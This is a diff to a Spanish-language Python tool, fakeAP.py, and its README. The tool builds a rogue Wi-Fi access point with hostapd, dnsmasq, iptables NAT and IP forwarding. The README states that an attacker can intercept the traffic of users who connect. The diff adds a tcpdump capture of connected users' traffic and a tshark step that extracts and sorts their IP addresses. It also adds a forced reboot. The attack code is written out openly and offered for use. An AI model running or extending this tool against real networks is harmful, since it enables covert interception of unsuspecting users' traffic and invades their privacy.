

Version 1

diff --git a/fakeAP.py b/fakeAP.py
@@ -73,8 +73,9 @@ else:
 while True:                                                   
     print("\n\033[1m[1] Instalar requisitos\033[0m")
     print("\033[1m[2] Configurar FakeAP\033[0m")
-    print("\033[1m[3] Reiniciar la red y el sistema\033[0m")
-    print("\033[1m[4] Salir\033[0m")
+    print("\033[1m[3] Procesar los registros para ordenar por IP\033[0m")
+    print("\033[1m[4] Reiniciar la red y el sistema\033[0m")
+    print("\033[1m[5] Salir\033[0m")
     opcion = input("\033[1m\n[+] Ingrese una opción: \033[0m")
     if opcion == "1":
         print("\033[1m\n[+] Instalando\n \033[0m")
@@ -87,12 +88,17 @@ while True:
         os.system(f"iptables --table nat --append POSTROUTING --out-interface {adaptador} -j MASQUERADE")
         os.system(f"iptables --append FORWARD --in-interface {primer_adaptador_nombre} -j ACCEPT")
         os.system("echo 1 > /proc/sys/net/ipv4/ip_forward\n")
+        subprocess.Popen(['xterm', '-e', 'bash', '-c', f'tcpdump -i {primer_adaptador_nombre} -w trafico.pcap; exec bash'])
         subprocess.Popen(['xterm', '-e', 'bash', '-c', f'hostapd hostapd.conf -i {primer_adaptador_nombre}; exec bash'])
         subprocess.Popen(['xterm', '-e', 'bash', '-c', f'dnsmasq -C dnsmasq.conf -d -i {primer_adaptador_nombre}; exec bash'])
     elif opcion == "3":
-        print("\033[1m\n[+] Reiniciando la red y el sistema\n \033[0m")
-        os.system("sudo systemctl restart NetworkManager.service")
+        os.system("tshark -r trafico.pcap -T fields -e ip.src -e ip.dst > direcciones_ip.txt")
+        os.system("sort direcciones_ip.txt > direcciones_ip_ordenadas.txt")
     elif opcion == "4":
+        print("\033[1m\n[+] Reiniciando la red y el sistema\n \033[0m")
+        os.system("systemctl restart NetworkManager.service")
+        os.system("reboot")
+    elif opcion == "5":
         # Salir del programa
         break
     else:

diff --git a/README.md b/README.md
@@ -16,6 +16,8 @@ Una vez que un usuario se conecta a la Fake AP, el hacker puede interceptar y re
 
 <br>
 
+En el archivo **hostapd.conf** puede configurar el nombre de red que se va a crear y la contraseña, en el archivo **dnsmasq.conf** puede configurar para guardar el tráfico de red en un archivo **.log**
+
 ```
 iwconfig (Primero verificar que este conectado el adaptador)
 
@@ -35,5 +37,3 @@ sudo python3 fakeAP.py
 <p align="center">
 <img src="./Img/captura.png">
 </p>
-
-En el archivo **hostapd.conf** puede configurar el nombre de red que se va a crear y la contraseña, en el archivo **dnsmasq.conf** puede configurar para guardar el tráfico de red en un archivo **.log**
